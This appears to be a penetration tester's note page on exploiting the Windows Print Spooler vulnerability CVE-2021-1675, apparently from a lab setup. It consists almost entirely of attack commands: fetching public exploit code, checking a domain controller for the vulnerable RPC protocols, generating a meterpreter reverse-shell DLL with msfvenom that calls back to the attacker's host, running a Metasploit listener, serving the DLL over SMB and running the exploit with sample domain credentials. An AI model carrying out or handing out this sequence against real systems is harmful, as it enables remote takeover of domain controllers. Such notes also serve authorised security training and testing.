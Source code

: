 **Windows Print Spooler Elevation of Privilege Vulnerability.**
https://github.com/cube0x0/CVE-2021-1675 (RCE)
https://github.com/calebstewart/CVE-2021-1675 (PrivESc)
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py
```
```bash
python3 rpcdump.py @$DOMIAN_CONTROLLER_IP | egrep 'MS-RPRN|MS-PAR'
```
==This means VULNERABLE==
`Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol`
`Protocol: [MS-RPRN]: Print System Remote Protocol`
[[Impacket#Latest Version]]
```bash
sudo wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```
**Here we are generating a reverse dll file, and executing it remotely by smb.**
![[1._Reverse Shells (WIN)#MSFVenom#DLL]]
```bash - Kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f dll > shell.dll
```
**Next we run Metasploit and set up a listener**
```bash - Kali
sudo msfdb run
```
```bash - Kali
use multi/handler
```
```bash - Kali
options
```
```bash - Kali
set payload windows/x64/meterpreter/reverse_tcp
```
```bash - Kali
set LPORT 443
```
```bash - Kali
set LHOST $KALI
```
```bash - kali
run
```
```bash - kali
smbserver.py share `pwd`
```
```python
python3 CVE-2021-1675.py marvel.local/groot:Password1@$DOMAIN_CONTROLLER_IP '\\<$KALI>\share\shell.dll'
```
IF error occurs, run smbserver.py with smb2 support as shown below:
```bash - kali
smbserver.py share `pwd` -smb2support
```